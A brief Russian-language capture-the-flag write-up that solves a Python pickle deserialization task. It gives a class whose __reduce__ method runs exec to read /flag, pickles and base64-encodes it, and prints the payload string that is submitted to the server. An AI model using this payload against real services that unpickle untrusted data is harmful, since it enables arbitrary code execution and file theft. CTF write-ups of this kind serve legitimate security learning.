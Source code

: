 Задачка про исполнение вредносного кода на python. Надо просто написать сплойт, который мы потом с помщью pickle сериализуем и исполним на сервере.

Код ниже как раз это делает:

```python
import pickle
import base64


class A(object):
    def __reduce__(self):
        return (exec, ('print(f"{open(\'/flag\').read()}")',))


serialized_class = base64.encodebytes(pickle.dumps(A()))
print(serialized_class)

```

Получаем строчку

`gASVPAAAAAAAAACMCGJ1aWx0aW5zlIwEZXhlY5STlIwgcHJpbnQoZiJ7b3BlbignL2ZsYWcnKS5yZWFkKCl9IimUhZRSlC4=`

Которую мы вставляем и получаем флаг